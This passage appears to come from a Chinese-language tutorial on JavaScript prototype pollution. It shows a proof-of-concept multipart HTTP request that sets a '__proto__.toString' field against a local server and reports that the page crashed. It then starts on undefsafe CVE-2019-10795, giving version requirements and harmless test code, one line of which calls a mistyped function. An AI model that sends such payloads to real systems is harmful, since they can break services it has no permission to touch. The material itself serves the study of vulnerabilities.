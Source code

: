 poc

```http
POST / HTTP/1.1
Host: 192.168.18.1:3000
Content-Type: multipart/form-data; boundary=--------1566035451
Content-Length: 134

----------1566035451
Content-Disposition: form-data; name="__proto__.toString"; filename="filename"

whoami
----------1566035451--

```

![image-20211216163633664](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211216163633664.png)

之后再次刷新我们的http页面

![image-20211216163655473](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211216163655473.png)

已经成功崩坏了

#### undefsafe - CVE-2019-10795

- 版本要求：Undefsafe < 2.0.3

这个模块的核心是一个用来处理访问对象属性不存在时的报错相关逻辑的函数

```bash
npm i undefsafe@2.0.2
```

先简单测试模块使用，首先是用undefined解决烦人的长调用栈报错

```js
var undefsafe = require('undefsafe')
var object = {
    a:{
        b:{
            c:1,
            d:[1,2,3],
            e:'amiz'
        }
    }
}
console.log(object.a.b.e)
// amiz
console.log(a(object, 'a.b.e'))
// amiz
console.log(object.a.c.e)
// TypeError: Cannot read property 'e' of undefined
// .....
console.log(undefsafe(object, 'a.c.e'))
// undefined
```
